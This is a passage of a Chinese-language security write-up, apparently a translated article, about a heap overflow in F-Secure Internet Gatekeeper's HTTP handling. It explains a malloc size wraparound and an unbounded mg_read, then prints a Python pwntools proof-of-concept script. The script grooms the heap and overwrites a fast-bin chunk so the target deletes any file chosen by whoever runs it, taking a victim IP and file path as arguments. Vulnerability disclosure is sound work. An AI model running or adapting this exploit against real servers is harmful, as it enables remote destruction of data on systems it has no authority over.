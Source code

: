 > `malloc()`函数会分配`size`字节大小的空间，返回指向已分配内存的一个指针，该内存区域未经初始化。如果`size`等于`0`，那么`malloc()`就会返回`NULL`或者一个有效的指针值，以便后续`free()`执行释放操作。

如果进一步分析Internet Gatekeeper的代码，可以看到其中调用了`mg_read`。

```
// content_len_new is without the addition of 0x1.
// so content_len_new == 0xFFFFFFFF
if(content_len_new)`{`
    int bytes_read = mg_read(header_struct, data_by_post_on_heap, content_len_new)
`}`
```

在溢出过程中，该代码会读取堆上任意数量的数据，没有任何约束条件。对于漏洞利用而言，这是非常优秀的一个利用原语，我们可以停止向HTTP流写入数据，目标软件会简单关闭连接并继续执行。在这种情况下，我们可以完全控制希望写入的字节数。

总而言之，我们可以利用`malloc`返回的`0x10`大小chunk，通过任意数据溢出来覆盖已有的内存结构。这里我们可以参考如下PoC代码，这段代码比较粗糙，利用了堆上已有的一个结构，修改标志值（`should_delete_file = true`），然后将我们想要删除的文件完整路径喷射到堆上。Internet Gatekeeper内部处理程序中包含一个`decontruct_http`方法，该方法会寻找该标志，执行文件删除操作。利用这一点，攻击者可以删除任意文件，这足以说明漏洞的严重程度。

```
from pwn import *
import time
import sys

def send_payload(payload, content_len=21487483844, nofun=False):
    r = remote(sys.argv[1], 9012)
    r.send("POST / HTTP/1.1\n")
    r.send("Host: 192.168.0.122:9012\n")
    r.send("Content-Length: `{``}`\n".format(content_len))
    r.send("\n")
    r.send(payload)
    if not nofun:
        r.send("\n\n")
    return r

def trigger_exploit():
    print "Triggering exploit"
    payload = ""
    payload += "A" * 12             # Padding
    payload += p32(0x1d)            # Fast bin chunk overwrite
    payload += "A"* 488             # Padding
    payload += p32(0xdda00771)      # Address of payload
    payload += p32(0xdda00771+4)    # Junk
    r = send_payload(payload)

def massage_heap(filename):
        print "Trying to massage the heap....."
        for x in xrange(100):
            payload = ""
            payload += p32(0x0)             # Needed to bypass checks
            payload += p32(0x0)             # Needed to bypass checks
            payload += p32(0xdda0077d)      # Points to where the filename will be in memory
            payload += filename + "\x00"
            payload += "C"*(0x300-len(payload))
            r = send_payload(payload, content_len=0x80000, nofun=True)
            r.close()
            cut_conn = True
        print "Heap massage done"

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print "Usage: ./`{``}` &lt;victim_ip&gt; &lt;file_to_remove&gt;".format(sys.argv[0])
        print "Run `export PWNLIB_SILENT=1` for disabling verbose connections"
        exit()
    massage_heap(sys.argv[2])
```